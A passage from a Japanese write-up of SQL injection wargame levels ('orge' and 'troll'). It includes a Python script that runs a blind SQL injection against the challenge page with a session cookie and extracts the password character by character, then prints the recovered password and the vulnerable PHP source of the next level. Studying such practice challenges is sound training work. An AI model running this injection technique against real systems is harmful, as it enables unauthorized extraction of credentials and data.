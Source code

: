 ### 考察
``` php
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
```
この制約があるため，パスワードを得る必要がある．
まず,length()関数を使って文字数を確かめる．
以下のスクリプトを書いた．

``` python
import requests
import string

url = 'https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php'

mycookie = {
    'PHPSESSID': '461n04bqd0o3o43r8k4ckmb497'
}

letters = string.digits + string.ascii_letters
ans = ""

for i in range(1, 9):
    for letter in letters:
        response = requests.get(url + "?pw=' || substr(pw, {index}, 1) = \'{char}\' -- #".format(index = i, char = letter), cookies=mycookie)

        if 'Hello admin' in response.text:
            ans += letter
            break
print(ans)
```

### 回答
上記スクリプトから得られるパスワードを入れる．

``` sql
select id from prob_orge where id='guest' and pw='6c864dec'
```

## troll

### 問題
``` php
<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```
### 考察
"admin"以外．
